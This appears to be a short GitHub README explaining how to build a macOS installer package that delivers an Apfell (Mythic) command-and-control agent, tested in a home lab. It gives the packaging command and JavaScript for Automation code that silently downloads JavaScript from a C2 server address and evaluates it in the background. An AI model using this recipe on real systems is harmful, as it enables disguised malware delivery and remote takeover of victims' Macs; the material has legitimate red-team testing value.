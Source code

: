# Mythic/Apfell Payload
Making an Installer package payload with Apfell

[Blog post about it](https://kphongag.blogspot.com/2020/04/testing-with-apfell-javascript-for.html)

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the package payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg. 
Run to build pkg:\
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:    
`var app = Application.currentApplication();`\
`app.includeStandardAdditions = true;`\
`app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`
  
  
Notes: 
- Exclude Example folder when building the .pkg
- This can also be done without an application in the postinstall script
